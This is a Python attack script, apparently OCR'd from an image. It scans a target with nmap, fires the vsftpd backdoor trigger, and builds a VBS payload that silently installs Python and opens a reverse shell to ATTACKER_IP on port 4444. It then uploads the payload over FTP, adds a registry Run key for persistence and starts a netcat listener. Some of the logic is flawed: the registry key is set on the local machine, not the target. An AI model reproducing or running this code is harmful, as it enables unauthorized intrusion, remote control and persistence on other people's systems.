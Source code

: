 import nmap
import socket
import time
import os
from ftplib import FTP
import subprocess
import ctypes

# Configuration
TARGET_IP = '192.168.1.10'
ATTACKER_IP = '192.168.1.9'
REVERSE_PORT = 4444

def scan_ports(target_ip):
    print("[*] Scanning ports on target...")
    popup_notification("Scanning ports on target...")
    nm = nmap.PortScanner()
    nm.scan(target_ip, '1-1024', arguments='-sV')
    ports = []
    for host in nm.all_hosts():
        for proto in nm[host].all_protocols():
            for port in nm[host][proto].keys():
                service = nm[host][proto][port]
                ports.append({
                    'port': port,
                    'name': service.get('name', ''),
                    'product': service.get('product', ''),
                    'version': service.get('version', '')
                })
    return ports

def exploit_vsftpd(target_ip, port):
    print(f"[!] Attempting vsftpd backdoor exploit on {target_ip}:{port}")
    popup_notification(f"Attempting vsftpd backdoor exploit on {target_ip}:{port}")
    try:
        s = socket.socket()
        s.connect((target_ip, port))
        s.recv(1024)
        s.send(b'USER backdoor:)\r\n')
        time.sleep(1)
        s.send(b'PASS pass\r\n')
        s.close()
        print("[+] Exploit sent. If vulnerable, backdoor opens on port 6200.")
        popup_notification("Exploit sent. Check for backdoor on port 6200.")
    except Exception as e:
        print(f"[-] Exploit failed: {e}")
        popup_notification("Exploit failed.")

def create_vbs_script():
    print("[*] Creating VBS reverse shell payload...")
    popup_notification("Creating VBS reverse shell payload...")
    script = f""" 
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    Set objShell = CreateObject("WScript.Shell")
    On Error Resume Next
    Set objExec = objShell.Exec("python --version")
    If Err.Number <> 0 Then
        objShell.Run "cmd /c powershell -Command (New-Object System.Net.WebClient).DownloadFile('https://www.python.org/ftp/python/3.9.0/python-3.9.0.exe', 'python_installer.exe')", 0, True
        objShell.Run "cmd /c python_installer.exe /quiet InstallAllUsers=1 PrependPath=1", 0, True
        WScript.Sleep 5000
    End If
    objShell.Run "cmd /c python -c \"import socket,subprocess,os;s=socket.socket();s.connect(('{ATTACKER_IP}',{REVERSE_PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(['cmd.exe'])\"", 0, False
    """
    with open("payload.vbs", "w") as f:
        f.write(script)
    return "payload.vbs"

def upload_and_execute_vbs(target_ip, filename):
    print("[*] Connecting to FTP to upload payload...")
    popup_notification("Uploading payload via FTP...")
    try:
        ftp = FTP(target_ip)
        ftp.login()
        with open(filename, "rb") as file:
            ftp.storbinary(f"STOR {filename}", file)
        ftp.quit()
        print("[+] File uploaded via FTP.")
        popup_notification("File uploaded via FTP.")
        
        # Add the autorun mechanism here
        print("[*] Attempting to set autorun on the target machine...")
        set_autorun(target_ip)
        
        print("[!] You now need to manually trigger execution on the target (e.g., if target auto-runs files or through remote command).")
    except Exception as e:
        print(f"[-] FTP upload failed: {e}")
        popup_notification("FTP upload failed.")

def set_autorun(target_ip):
    print("[*] Attempting to set autorun registry key on target machine...")
    try:
        # This adds the VBS file to the registry so it runs on startup (for Windows)
        registry_command = f'reg add "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "MyPayload" /t REG_SZ /d "C:\\Users\\Public\\payload.vbs" /f'
        subprocess.call(["cmd", "/C", registry_command])  # Running the registry key
        print("[+] Autorun set successfully.")
        popup_notification("Autorun set successfully.")
    except Exception as e:
        print(f"[-] Failed to set autorun: {e}")
        popup_notification("Failed to set autorun.")

def start_listener():
    print(f"[*] Starting listener on port {REVERSE_PORT} (make sure netcat is installed)...")
    popup_notification(f"Starting listener on port {REVERSE_PORT}...")
    try:
        subprocess.call(['x-terminal-emulator', '-e', f'nc -lvnp {REVERSE_PORT}'])
    except:
        print("[!] Could not launch new terminal, please run manually:")
        print(f" nc -lvnp {REVERSE_PORT}")

def popup_notification(message):
    ctypes.windll.user32.MessageBoxW(0, message, "Notification", 0)

def main():
    ports = scan_ports(TARGET_IP)
    print("[+] Open ports found:")
    for p in ports:
        print(f" - Port {p['port']}: {p['name']} {p['product']} {p['version']}")
        if 'vsftpd' in p['product'].lower():
            exploit_vsftpd(TARGET_IP, p['port'])
    vbs_filename = create_vbs_script()
    upload_and_execute_vbs(TARGET_IP, vbs_filename)
    start_listener()

if __name__ == "__main__":
    main()

